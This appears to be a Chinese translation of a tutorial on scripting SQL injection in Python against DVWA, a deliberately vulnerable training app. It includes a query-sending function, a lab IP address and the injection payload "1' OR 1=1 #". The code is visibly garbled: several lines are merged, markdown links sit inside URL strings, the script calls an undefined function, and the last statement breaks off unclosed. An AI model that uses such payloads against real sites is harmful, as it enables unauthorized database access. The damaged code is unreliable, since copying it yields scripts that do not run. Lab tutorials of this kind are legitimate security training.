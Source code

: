 # 使用请求发送 DVWA SQLi 部分中的查询

现在我们有了会话，我们不必担心 cookies，我们可以将所有的精力集中在利用上。
正如我们在[之前的文章](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)中看到的，关于 DVWA 上的 SQL 注入，同样使用 level medium，我们需要运行许多查询。

所以避免代码重复的最好方法是定义一个函数来发送查询。

先看代码再评论吧！

```
def send_query(query, session):data = { "id": query,
            "Submit": "Submit"
    }

    response = session.post(sqli_url, data=data)
    soup = BeautifulSoup(response.text, "html.parser")
    final_result = soup.find("pre")
    return final_result
```

这个方法非常简单明了。

*   是一个向网站提交 [SQL](https://en.wikipedia.org/wiki/SQL) 查询并返回结果的函数。
*   该查询作为一个 [POST](https://en.wikipedia.org/wiki/POST_(HTTP)) 请求提交，查询字符串在“id”参数中。
*   结果作为最终将被打印的 BeautifulSoup 对象返回。

# 准备剧本

为了使我们的工作更容易，首先要做的是设置一些全局变量:

*   **IP 地址:**它很可能会改变，所以我们需要一个舒适的地方来改变它。
*   **安全级别:**它使代码更具可读性
*   **查询:**不止一个变量，它是一个节。事实上，我们需要运行不同的查询，所以最好将它们放在一个可见的地方，最终的想法是将所有要在脚本中使用的查询放在源代码的这一部分。

```
# Cookies for security level
security_levels =  ["low", 
                    "medium", 
                    "high", 
                    "impossible"]
# URL section
base_ip = "10.10.91.189"
login_url = f"[http://{base_ip}/login.php](http://{base_ip}/login.php)"
sqli_url = f"[http://{base_ip}/vulnerabilities/sqli/](http://{base_ip}/vulnerabilities/sqli/)"# Query section
query = "1' OR 1=1 #"
```

现在我们需要编写我们的 main，运行脚本并查看结果，这只是一个快速测试:

```
def beautify_query_single(query_result):
    beautified_query_result = str(query_result).replace('<br/>', '\n'
            ).replace('<pre>', '').replace('</pre>', '')
    return beautified_query_result.splitlines()[2].split(':')[1].strip()def beautify_query_double(query_result):
    beautified_query_result = str(query_result).replace('<br/>', '\n'
            ).replace('<pre>', '').replace('</pre>', '')
    return beautified_query_result.splitlines()[1].split(':')[1] + ' ' \
        + beautified_query_result.splitlines()[2].split(':')[1]if __name__ == "__main__":session = login(login_url, 1)
    response = session.get(sqli_url)
    soup = BeautifulSoup(response.text, "html.parser")
    query_result = beautify_query(send_query(query, session))
    beautified_query_result = (
        query_result.replace("<br/>", "\n").replace("<pre>", "").replace("</pre>", "")
```